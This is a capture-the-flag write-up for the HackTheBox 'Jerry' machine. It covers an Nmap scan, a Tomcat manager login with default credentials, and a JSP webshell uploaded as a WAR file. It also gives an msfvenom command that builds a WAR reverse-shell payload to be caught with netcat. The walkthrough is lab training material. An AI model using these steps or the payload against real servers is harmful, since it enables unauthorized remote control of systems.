






HackTheBox - Jerry Writeup
Table of Contents
Nmap
As always, I’m gonna start with the Nmap scan with this IP address 10.10.10.95
# Nmap 7.92 scan initiated Tue Mar 1 07:29:58 2022 as: nmap -sC -sV -p- -oN nmap/jerry_all 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.060s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
8080/tcp open http Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 1 07:36:10 2022 -- 1 IP address (1 host up) scanned in 371.74 seconds
One port just opens at 8080 and it is Apache Tomcat. Well, this machine is straightforward. So, I’m gonna show, you how to exploit it with msfvenom and web shell. Let’s go.
Http (Apache Tomcat)
Let’s take a look at port 8080 which serve as Http.

It’s just an Apache Tomcat default page after installations. So, I’ll try to play around. Then, I found the /manager/html section upon clicking the Manager App button. Also, I found the credentials on the error page.

/manager/html
On this page, we can upload the WAR file to the server. Then, I’m thinking maybe I can upload some sort of shell since this is an old version of Apache Tomcat.

WebShell
With light googling, I found this webshell. So, I’m gonna create a new directory called xploit. Then, download it with the wget command in xploit dir. However, we wanted in form of a WAR file to be able to upload it. Let’s convert this .jsp file into .WAR file.

If the command successfully ran. There will be a new file created in your current directory. In this case, my xploit directory. Now, Let’s upload the newly created web shell to the server. It went through and didn’t throw any errors.

To spawn the shell, just click the /web shell path in the table.

WOW! we just became nt authority\system user. Furthermore, you can upload the nishang reverse shell to get a proper shell.
MSFVenom
If you like to get a reverse shell straight away. We can use the msfvenom payload and get the connection back through nc. First, let’s create the payload with this command; and make sure to start the listener as well.
msfvenom -p java/jsp_shell_reverse_tcp LHOST=your_ip LPORT=any_port -f war -o shell.war

The last step is, to upload it into this machine and double-click the /shell. ET VOILA
